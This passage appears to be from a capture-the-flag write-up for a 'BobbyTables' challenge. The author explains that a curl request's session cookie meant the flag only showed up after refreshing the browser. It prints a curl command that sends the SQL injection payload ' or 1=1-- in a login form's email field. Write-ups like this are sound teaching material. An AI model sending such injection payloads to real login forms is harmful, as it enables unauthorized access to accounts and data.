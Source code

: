 ![BobbyTables_curl](../assets/201909_shecurity/BobbyTables_Successfulcurl.PNG)

The answer lies in how the `curl` request was constructed. The `curl` I used contains a `Cookie` value specific to the browser session hence even if the injection were successful, I wouldn't have been able to see anything within the terminal. I actually needed to go back to my browser that _hasn't been closed_ and _refresh_ the page to see the flag!

```
curl "https://chmodxx.net/dos/submit.php"
	[TRUNCATED]
-H "Cookie: PHPSESSID=5uj69calgmr27fk839lo33hc80" -H "Connection: keep-alive" -H "DNT: 1" --data "email=%27%20or%201%3D1--&password=sadfsdf" --compressed
```

![BobbyTables_Admin](../assets/201909_shecurity/BobbyTables_Admin.PNG)
